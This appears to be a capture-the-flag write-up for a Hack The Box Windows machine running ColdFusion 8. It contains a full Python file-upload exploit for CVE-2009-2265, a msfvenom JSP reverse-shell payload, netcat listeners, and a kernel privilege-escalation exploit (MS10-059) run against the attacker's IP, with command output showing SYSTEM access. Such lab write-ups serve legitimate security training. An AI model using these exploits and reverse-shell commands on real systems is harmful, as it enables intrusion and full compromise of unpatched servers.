



# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 -Pn 10.129.89.135

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 11:37 BST
Nmap scan report for 10.129.89.135
Host is up (0.074s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
8500/tcp open  fmtp

Nmap done: 1 IP address (1 host up) scanned in 309.23 seconds
"
```

```bash
nmap -p 135,8500 -sC -sV -Pn 10.129.89.135

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 11:43 BST
Nmap scan report for 10.129.89.135
Host is up (0.072s latency).

PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8500/tcp open  http    JRun Web Server
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.08 seconds
"
```

## **View Website**



## Enumerating Website Routes



## Routing to `/administrator/`



We see that the website is using Adobe ColdFusion 8. Let’s search the vulnerability

# Exploitation

## Searching ColdFusion Vulnerability

```bash
searchsploit coldfusion 8

"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scr | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal        | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metas | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deseri | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Jav | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page  | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scri | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentic | multiple/remote/30210.rb
Adobe ColdFusion 9 - Administrative Authentic | windows/webapps/27755.txt
Adobe ColdFusion < 11 Update 10 - XML Externa | multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple  | multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrat | cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/com | cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/com | cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrato | cfm/webapps/33168.txt
Allaire ColdFusion Server 4.0 - Remote File D | multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EX | windows/local/19220.c
ColdFusion 8.0.1 - Arbitrary File Upload / Ex | cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure       | multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site S | cfm/remote/21548.txt
ColdFusion MX - Remote Development Service    | windows/remote/50.pl
ColdFusion Scripts Red_Reservations - Databas | asp/webapps/7440.txt
ColdFusion Server 2.0/3.x/4.x - Administrator | multiple/dos/19996.txt
Macromedia ColdFusion MX 6.0 - Remote Develop | multiple/remote/22867.pl
Macromedia ColdFusion MX 6.0 - SQL Error Mess | cfm/webapps/23256.txt
Macromedia ColdFusion MX 6.1 - Template Handl | multiple/remote/24654.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
"
```

### More information about the File Upload Vulnerability

```bash
searchsploit -x 16788

"
  Exploit: ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16788
     Path: /usr/share/exploitdb/exploits/cfm/webapps/16788.rb
    Codes: CVE-2009-2265, OSVDB-55684
 Verified: True
File Type: Ruby script, ASCII text
"
```

## CVE-2009-2265 Exploit Code

> Disclaimer: I copied the code from the below link, but changed some of the code due to legacy problem (python2.7).
> 

```python
#!/usr/bin/python3
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265
#
# Description:
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print('Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>')
    print('Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp')
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print('Sending payload...')

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00",
files={'newfile': ('exploit2.txt', body, 'application/x-java-archive')}, timeout=90)
    if req.status_code == 200:
        print('Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp')
    else:
        print('Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason)
except requests.Timeout:
    print('Failed to upload payload... Request timed out')
```

### Reference: Where I Copied the Code

[https://github.com/crypticdante/CVE-2009-2265](https://github.com/crypticdante/CVE-2009-2265)

## Generating Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker ip> LPORT=4444 -f raw -o reverse.jsp
```

## Uploading the Reverse Shell Code to the Target Server

```bash
python3 upload.py 10.129.89.135 8500 reverse.jsp

"
Sending payload...
Successfully uploaded payload!
Find it at http://10.129.89.135:8500/userfiles/file/exploit.jsp
"
```

## Listen to Reverse Shell and Exploit

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.89.135.
Ncat: Connection from 10.129.89.135:49280.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
"
```

Redirect to this link to execute the reverse shell `http://<attacker ip>:8500/userfiles/file/exploit.jsp`

# Privilege Escalation

## Printing out systeminfo

Copy the systeminfo result to systeminfo.txt inside the Attacker System. This is going to be used to detect the kernel vulnerability.

```powershell
systeminfo

"
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          4/10/2023, 9:33:43 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2394 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.052 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.226 MB
Virtual Memory: In Use:    1.059 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.89.135
"
```

## Installing wes-ng to find kernel vulnerability

```bash
pip3 install wesng
wes --update
wes systeminfo.txt -o out.csv
cat out.csv | grep '2010-2554'

`
"20100810","CVE-2010-2554","982799","Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege","Windows Server 2008 R2 for x64-based Systems","","Important","Elevation of Privilege",""
`
```

## Download the Exploit (CVE-2010-2554 | MS10-059)

[https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A Chimichurri/Compiled/Chimichurri.exe](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe)

## Listen to Reverse Shell and Exploit

```powershell
.\exploit.exe 10.10.14.74 4443
```

```bash
nc -lvnp 4443

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.129.89.135.
Ncat: Connection from 10.129.89.135:50005.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami /user
whoami /user

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

C:\Users\tolis\Desktop>
"
```